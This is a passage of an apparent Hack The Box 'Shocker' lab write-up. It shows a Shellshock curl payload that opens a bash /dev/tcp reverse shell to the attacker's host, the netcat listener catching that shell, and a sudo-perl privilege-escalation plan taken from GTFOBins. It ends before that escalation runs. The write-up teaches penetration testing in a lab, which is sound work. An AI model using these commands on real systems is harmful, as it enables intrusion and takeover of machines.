 NICE! We were not only able to execute code on the target machine, but actually send a message *back* to our attacker machine! Alright, let's see if we can get a fully interactive reverse shell. We'll try to get a /dev/tcp reverse shell using the following:<br>
`bash -i >& /dev/tcp/10.10.16.192/12345 0>&1`<br>
If this works, we should expect to get a fully interactive reverse shell back on our netcat listener (we'll have to restart our netcat listener).

Exploit:
```bash
┌──(kali㉿kali)-[~/htb/Shocker]
└─$ curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.16.192/12345 0>&1'" http://10.10.10.56/cgi-bin/user.sh
```

Shell:
```bash
┌──(kali㉿kali)-[~/htb/Shocker]
└─$ nc -lnvp 12345                                                        130 ⨯
listening on [any] 12345 ...
connect to [10.10.16.192] from (UNKNOWN) [10.10.10.56] 48196
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ id
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
shelly@Shocker:/usr/lib/cgi-bin$ 
```
<br><br>

# Escalation

VERY NICE! Okay, we are now controlling the target machine as user `shelly` whomever that is... Let's look around and see if we can escalate our privileges to root.

```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/usr/lib/cgi-bin$ 
```

 First thing I always check is what can the current user run as `sudo` but without a password. To do this, we can run `sudo -l`, if we're prompted for a password and we don't know it, then we're out of luck.... however, we're not out of luck here! We are able to run `/usr/bin/perl` as `sudo` without the need of a password. Huh, a programming language that we can run as root - I wonder whatever we'll be able to do with that? Maybe, tell it to start a new shell?

Yup! If you don't know immediately what to do, don't worry about it, let's go to [GTFOBins](https://gtfobins.github.io/) and look up perl to see if it has anything. If we search `perl` we can see that we can run a myriad of things, the one we're most interested in is `sudo`. According to GTFOBins, we can run `sudo perl -e 'exec "/bin/sh";'` and get a shell.. However, look at the results of `sudo -l` and you'll see that we need a TINY adjustment, we just need to specify the full path of perl. Easy enough:
